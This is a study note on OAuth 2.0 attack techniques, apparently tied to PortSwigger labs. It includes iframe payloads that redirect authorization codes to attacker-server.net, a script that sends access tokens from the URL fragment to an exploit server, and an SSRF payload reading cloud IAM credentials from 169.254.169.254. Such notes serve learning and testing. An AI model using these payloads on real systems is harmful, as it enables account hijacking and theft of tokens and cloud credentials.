 # Resources
- [Portswigger - Oauth](https://portswigger.net/web-security/oauth)
- [OAuth Authentication Playlist - Michael Sommer](https://www.youtube.com/playlist?list=PL0W_QjMcqdSDySnTew-bKmqIu89ltfqkh)
# Key points
We are talking about OAuth 2.0
We are focusing on the **implicit** and **authorization code** grant types as they are the most common ones
For the authorization code grant type the API requests for the user's data happen in a secure backend channel between the client app and the oauth server
For the implicit grant type the API requests for the user's data happen via browsers redirects and are visible to the user
Do recon of the public API of the OAuth provider to become familiar with it
Some requests to try to find more information:
```html
/.well-known/oauth-authorization-server
/.well-known/openid-configuration
```
- Scope: Defines the data that will be granted accesst to
- State parameter: Used to prevent CSRF attacks
# Vulnerabilities
- Authentication bypass via OAuth implicit flow
    - The application wants to maintain a session, so it sends the OAuth data via a POST request to store the data and send a session cookie
    - The server does not have a secret or password to compare to, so the data sent is implicitly trusted
    - The attacker can manipulate it and access another account
- Forced OAuth profile linking - Link victim's account to attacker's social media
    - Missing `state` parameter
    - Use the `linking-code` generated while associating social-media-profiles:accounts to create a payload (use an iframe) to serve to the victim
    ```html
    src="https://website/oauth-linking?code=STOLEN-CODE"
    ```
- OAuth account hijacking via redirect_uri - Steal victim's authorization code
    - The redirect_uri parameter is not being validated it. Test it with a burp collaborator payload or the exploit server
    - Use a redirection vulnerability to steal the access code to hijack the victim's account. Embed the payload into an iframe
    ```html
    src="https://oauth-server.net/auth?client_id=ID&redirect_uri=https://attacker-server.net&response_type=code&scope=openid%20profile%20email"
    ```
- Stealing OAuth access tokens via an open redirect - Steal victim's access token
    - Test redirect_uri parameter validation mechanism
    - Find a open redirect vulnerability and chain it with path traversal
    - Redirect the user to the exploit server
    - Notice that the access token is returned as a url fragment. The payload has to be crafted to extract it
    ```html
    <script>
        if (!document.location.hash) {
            window.location = 'https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'
        } else {
            window.location = '/?'+document.location.hash.substr(1)
        }
    </script>
    ```
    - Steal the access token
- OpenID unprotected dynamic client registration + SSRF
    - Use oauth service providers' commonly known files to gather information
    ```http
    https://oauth-server.com/.well-known/openid-configuration
    ```
    - Extract the registration endpoint
    - Send a POST request to register your own application. The response should return the client-id
    ```http
    {
        "redirect_uris" : [
            "https://example.com"
        ]
    }
    ```
    - Inspect the oauth flow and notice that resources are fetched from /client/client-id/logo
    - Register a new application and add the logo_uri parameter. Test for SSRF by injecting the parameter with the collaborator payload
    ```http
    {
        "redirect_uris" : [
            "https://example.com"
        ],
        "logo_uri" : "https://collaborator-payload"
    }
    ```
    - Once SSRF has been confirmed, send a new registration but this time fetch the instance metadata endpoint to extract cloud sensitive information
    - logo_uri payload:
    ```http
    http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/
    ```
    - Make a request to `GET /client/client-id/logo` to retrieve the clould environment data
